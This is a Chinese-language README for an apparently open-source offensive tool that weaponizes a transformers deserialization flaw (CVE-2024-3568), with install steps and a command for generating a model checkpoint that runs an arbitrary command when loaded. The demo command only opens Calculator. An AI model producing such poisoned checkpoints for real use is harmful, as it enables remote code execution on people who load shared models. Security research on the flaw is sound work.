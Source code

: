# transformer攻防工具（Transformer hacker）

仓库地址：https://github.com/llm-sec/transformer-hacker

# 一、这是什么？

transformer相关漏洞武器化，方便利用漏洞。

# 二、下载 & 安装 

## 2.1 pip一键安装

TODO 

## 2.2 源码编译

前置依赖：

- Python 

克隆仓库到本地

```bash
git clone git@github.com:llm-sec/huggingface-hacker.git 
```

安装依赖库：

```bash
# 如果要让poc.py能够运行，安装的transformers版本要是4.37.2之前的
pip install transformers==4.37.2
pip install tensorflow
```

运行main.py查看使用说明：

```bash
python main.py --help
```

# 三、生成RCE payload checkpoint

生成带有命令执行的`checkpoint`，制定模型名称和要执行的命令：

```bash
python main.py --directory ./rce-checkpoint --model bert-base-uncased --command 'open /System/Applications/Calculator.app'
```

生成的payload文件夹如下：

![image-20241020134118431](./README.assets/image-20241020134118431.png)

对于漏洞原理的解读请移步此文章：

[huggingface/transformers RCE漏洞分析（CVE-2024-3568）](https://github.com/llm-sec/transformer-hacker/blob/main/docs/CVE-2024-3568/README.md)

# 四、大模型安全技术交流群

扫码加入大模型安全交流群：

<img src="https://raw.githubusercontent.com/llm-sec/.github/main/profile/README.assets/weixin-group-qr-code.png" width="200px">


如群二维码过期，可以加我个人微信，发送【大模型安全】拉你进群：

<img src="https://raw.githubusercontent.com/llm-sec/.github/main/profile/README.assets/cc11001100-weixin-rq-code.png" width="200px">




- 本工具及代码在[kimi](https://kimi.moonshot.cn/)的辅助下完成，感谢技术突破带来的生产力提升。





